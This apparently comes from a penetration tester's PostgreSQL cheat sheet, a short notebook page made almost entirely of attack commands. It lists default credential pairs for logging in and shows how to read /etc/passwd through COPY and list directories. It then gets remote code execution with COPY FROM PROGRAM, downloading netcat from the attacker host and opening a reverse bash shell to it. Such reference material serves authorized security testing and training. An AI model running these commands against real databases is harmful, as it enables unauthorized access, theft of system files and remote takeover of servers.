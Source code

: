 Try logging in with the following command and common creds:

```bash - kali
psql -h $TARGET -U postgres -p 5432
```

postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

#### Database navigation
List all databases
```sql - postgresql
\l
```

Use specific database
```sql - postgresql
\c <DATABASE>
```

List all tables in current database
```sql - postgresql
\dt
```

Describe a table
```sql - postgresql
\d <TABLENAME>
```

Get user roles
```sql - postgresql
\du+
```


#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```

```sql - postgresql
COPY demo from '/etc/passwd';
```

```sql - postgresql
SELECT * FROM demo;
```

#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```

#### Remote Code Execution

In Kali:
```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

In postgres:

```sql - postgresql
\c postgres;
```

Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```

Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```

```sql - postgresql
DELETE FROM cmd_exec;
```

![[rlwrap]]

```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```
